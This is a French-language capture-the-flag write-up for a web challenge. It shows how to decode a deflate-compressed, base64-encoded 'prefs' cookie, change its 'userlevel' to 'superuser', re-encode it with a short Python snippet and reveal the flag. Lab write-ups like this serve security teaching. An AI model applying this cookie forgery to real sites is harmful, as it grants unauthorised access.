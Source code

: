 📝 Write-up – Cookie Forger

Name: Flag-O-Matic 3000   
Category: Web   
Difficulty: Easy+   
Author: lil_pwny   

Lancement:   
y'avait des problemes avec le Docker, le + simple est de run avec : 
```
php -S 127.0.0.1:8080
```

Description   

Tu veux le flag ? Va le chercher.


Recon

On commence par visiter index.php :

    Un formulaire permet de saisir un username et de sélectionner un thème.

    L’utilisateur est redirigé vers chamber.php.

    On observe deux cookies créés : username et prefs.


Cookie Analysis

En inspectant les cookies :

```
Set-Cookie: prefs=q1YqyUjNTVWyUsrJTM8oUdJRKi1OLcpJLUvNAYolJRZnJivVAgA%3D; path=/
```

Le contenu de prefs ressemble à du base64. On le décode :

```
echo "q1YqyUjNTVWyUsrJTM8oUdJRKi1OLcpJLUvNAYolJRZnJivVAgA=" | base64 -d | hexdump -C
```

Résultat : données binaires compressées.

On soupçonne une compression gzip/deflate. Essayons de l’inflater :


```
import zlib, base64

prefs = "q1YqyUjNTVWyUsrJTM8oUdJRKi1OLcpJLUvNAYolJRZnJivVAgA="
decompressed = zlib.decompress(base64.b64decode(prefs), -zlib.MAX_WBITS)
print(decompressed.decode())
```

Résultat :

```
{"theme":"light","userlevel":"basic"}
```

Privilege Escalation

En analysant le cookie (et en bruteforcant avec burp et SecLists/Usernames/top-usernames-shortlist.txt ), on découvre qu'il suffit donc de modifier le cookie prefs en :

```
{"theme":"light","userlevel":"superuser"}
```
Avec l'encodage ca revient a : 

```
payload = {"theme": "light", "userlevel": "superuser"}
compressed = zlib.compress(json.dumps(payload).encode())[2:-4]  # simulate gzdeflate
encoded = base64.b64encode(compressed).decode()
print(encoded)
```

Résultat : 

```
q1YqyUjNTVWyUlDKyUzPKFHSUVAqLU4tykktS80BiRaXFqQWgUSUagE=
```

On remplace le cookie prefs dans le navigateur par cette valeur.

Flag 

En rechargeant chamber.php avec le cookie modifié, le flag apparaît :

AMSI{S3rial1z3d_C00ki3_Pr1vEsc_B4s364_GZ!}
